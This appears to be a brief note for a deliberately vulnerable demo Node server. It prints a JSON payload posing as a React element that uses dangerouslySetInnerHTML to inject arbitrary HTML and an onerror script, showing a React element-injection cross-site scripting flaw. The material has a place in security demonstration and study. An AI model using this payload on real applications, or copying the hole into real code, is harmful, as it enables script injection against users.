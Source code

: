 - start with `nodemon server.js`
- runs on localhost:8004

vulnerable to:
{
    _isReactElement: true,
    _store: {originalProps: {}},
    type: "body",
    props: {
        dangerouslySetInnerHTML: {
            __html:
                `<a href='http://danlec.com'>Arbitrary HTML</a>
                 <img src="" width="0" height="0" onerror="alert('Haxzored!')">`
        }
    }
}
test
